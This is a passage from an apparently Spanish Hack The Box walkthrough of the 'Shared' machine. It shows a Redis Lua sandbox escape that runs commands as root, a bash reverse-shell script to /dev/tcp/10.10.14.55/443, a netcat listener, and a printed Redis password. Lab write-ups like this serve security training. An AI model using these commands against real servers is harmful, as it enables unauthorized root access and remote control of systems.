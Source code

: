<p align="center">
<img src="/assets/hackthebox/img/machines/medium/shared/18.png">
</p>

- Si hacemos un `whoami` vemos que funciona.

```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
"root\n"
127.0.0.1:6379>
```

- Bueno como podemos ejecutar comandos vamos a enviarnos una `reverse shell` como el usuario `root`.

```bash
dan_smith@shared:/dev/shm$ cat reverse
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.55/443 0>&1
```

- Nos ponemos en escucha.

```bash
➜  ~ nc -nlvp 443
listening on [any] 443 ...
```

- Nos enviamos la shell.

```bash
dan_smith@shared:/dev/shm$ redis-cli
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/reverse", "r"); local res = f:read("*a"); f:close(); return res' 0
```
